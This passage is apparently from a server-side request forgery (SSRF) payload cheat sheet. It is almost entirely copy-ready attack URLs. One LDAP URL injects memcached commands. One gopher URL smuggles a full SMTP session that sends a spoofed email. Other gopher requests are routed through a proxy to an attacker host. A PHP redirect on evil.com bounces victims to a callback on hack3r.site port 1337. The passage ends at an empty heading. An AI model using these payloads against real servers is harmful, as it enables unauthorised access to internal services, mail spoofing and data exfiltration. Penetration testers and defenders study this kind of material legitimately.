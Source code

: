 Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### **Gopher**

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !

.
QUIT
```

### **Gopher HTTP**

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

### **Gopher SMTP - Back connect to 1337**

```
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

### **Gopher SMTP - send a mail**
